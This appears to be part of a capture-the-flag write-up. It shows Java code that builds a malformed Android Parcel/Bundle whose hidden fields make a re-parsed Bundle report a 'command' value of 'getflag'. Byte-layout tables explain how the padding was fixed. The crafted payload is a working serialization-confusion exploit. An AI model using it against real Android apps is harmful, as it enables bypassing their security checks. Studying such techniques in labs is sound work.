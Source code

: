 ```java
        // fake map
        // \7\0 => hide_len_key
        // command\0 => hide_content_key
        // \0\0 => hide_type_value
        // \7\0 => hide_len_value
        // getflag\0 => hide_content_value
        a.writeString("\7\0command\0\0\0\7\0getflag");
        a.writeInt(0);//fake_type
        a.writeString("");//fake_value
        a.writeString("command");//for bundle.getString("command")!=null
        a.writeInt(0);
        a.writeString("gotflag");
        int len = a.dataSize();
        b.writeInt(len);
        b.writeInt(0x4c444E42);
        b.appendFrom(a, 0, len);
        b.setDataPosition(0);

        byte[] raw = b.marshall();
        String output = Base64.encodeToString(raw, 0);
        Log.i("test", output);
```

## Other
I use this payload1 in match:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
But marshaling shows that fake_key contains 3 zero char after 'getflag'. It costs 6 bytes.
I search it and find that `writeString` method will put '\0' to the end of string, then pad size.

But if I remove the zero, writeString("\7\0command\0\0\0\7\0getflag"), the end zero will at the end. It costs 44 bytes without padding.
The structure is 
Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
--|--|--|--|--|--|--|--|--|--|--|
pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|01 00 00 00| "1" | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null
pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 01 00 00 00 | "1" | 07 00 00 00 | "command"

We can find the `type_value2` is error.
So we need to construct `fake_value1=""`.

Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
--|--|--|--|--|--|--|--|--|--|--|
pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|00 00 00 00| 00 00 00 00 | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null
pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 00 00 00 00 | 00 00 00 00 | 07 00 00 00 | "command"
